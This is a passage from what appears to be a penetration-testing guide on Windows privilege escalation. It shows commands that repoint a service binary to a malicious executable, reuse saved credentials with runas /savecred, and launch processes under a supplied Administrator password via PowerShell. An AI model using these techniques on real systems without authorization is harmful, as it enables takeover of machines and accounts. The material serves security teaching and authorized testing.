 If you can change the service configuration but cannot start or stop it:

1. **Option 1**: Modify the executable to execute at the next system reboot
   ```cmd
   sc config SERVICE_NAME binPath= "C:\path\to\malicious.exe" start= auto
   # Wait for reboot or find a way to force one
   ```

2. **Option 2**: Target a service that automatically restarts when it crashes
   ```cmd
   # Check if the service has a recovery action
   sc qfailure SERVICE_NAME
   ```

3. **Option 3**: Look for services that are frequently restarted by the system or users

## Using RunAs to Execute Commands as Another User

The `runas` command allows you to run programs as another user, which can be useful for privilege escalation when you have credentials for a higher-privileged account.

### Basic RunAs Usage

```cmd
# Basic syntax
runas /user:DOMAIN\username "command"

# Execute command prompt as Administrator
runas /user:Administrator cmd.exe

# Specify a domain
runas /user:DOMAIN\Administrator cmd.exe

# Open a program with a specific user
runas /user:Administrator "notepad.exe C:\Windows\System32\drivers\etc\hosts"
```

### Using Saved Credentials

By default, `runas` doesn't accept pre-supplied passwords. However, you can use the `/savecred` option if the user has previously saved credentials:

```cmd
# Use saved credentials (if available)
runas /savecred /user:Administrator cmd.exe
```

> Note: The `/savecred` option only works if the user has previously saved credentials using the same command with valid credentials.

### RunAs with PowerShell and Supplied Password

Since `runas` doesn't allow direct password input, you can use PowerShell to achieve this:

```powershell
# Create a credential object
$username = "Administrator"
$password = ConvertTo-SecureString "Password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($username, $password)

# Start a process with these credentials
Start-Process -FilePath "cmd.exe" -Credential $cred
```
